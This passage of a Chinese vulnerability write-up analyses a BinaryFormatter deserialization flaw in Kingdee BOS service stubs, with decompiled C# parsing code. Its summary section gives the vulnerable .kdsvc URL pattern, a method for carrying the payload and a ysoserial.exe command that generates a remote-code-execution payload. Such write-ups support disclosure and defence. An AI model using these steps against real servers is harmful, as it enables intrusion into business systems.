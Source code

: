 ```
                {
                    return Enum.Parse(type, content, true);
                }
                if (type == typeof(int))
                {
                    return int.Parse(content);
                }
                if (type == typeof(byte))
                {
                    return byte.Parse(content);
                }
                if (type == typeof(float))
                {
                    return float.Parse(content);
                }
                if (type == typeof(double))
                {
                    return double.Parse(content);
                }
                if (type == typeof(long))
                {
                    return long.Parse(content);
                }
                if (type == typeof(DateTime))
                {
                    return DateTime.Parse(content);
                }
                if (type == typeof(decimal))
                {
                    return decimal.Parse(content);
                }
                if (type == typeof(bool))
                {
                    return bool.Parse(content);
                }
                return this.proxy.Deserialize(content, type);
            }
        }
</code></pre>
最终进入方法中通过方法实现反序列化（根据微软描述：[将BinaryFormatter.Deserialize方法用于不受信任的输入时，该方法永远都不安全](https://learn.microsoft.com/zh-cn/dotnet/standard/serialization/binaryformatter-security-guide?source=recommendations#binaryformatter-security-vulnerabilities)）：`BinaryFormatterProxy#Deserialize``BinaryFormatter#Deserialize`


<h3>0x03 漏洞总结</h3>
1、Url路径：`程序集.满足条件的类.common.kdsvc`
满足构造函数支持传递KDServiceContext类型，且传递参数不为上述方法中的类型即可，我们可以看到在程序集中满足条件的类非常多，这里我们就找第一个类说明下：`SerializerProxy#Deserialize``Kingdee.BOS.ServiceFacade.ServicesStub`


再找一个满足传参的类，如：
<pre><code>SaveBizTipsInfos(string bizHost, List&lt;IBizTipsInfos&gt; tips)
</code></pre>
2、参数
- 使用ap作为参数
由于第一个参数为字符串，所以我们需要用第二个参数来传递有效载荷，这里我们用ysoserial.exe生成：
<pre><code>ysoserial.exe -c "a.cs;System.Windows.Forms.dll;System.Web.dll;System.dll" -f BinaryFormatter -o base64 -g ActivitySurrogateSelectorFromFile
</code></pre>


- 使用parameters作为参数
```
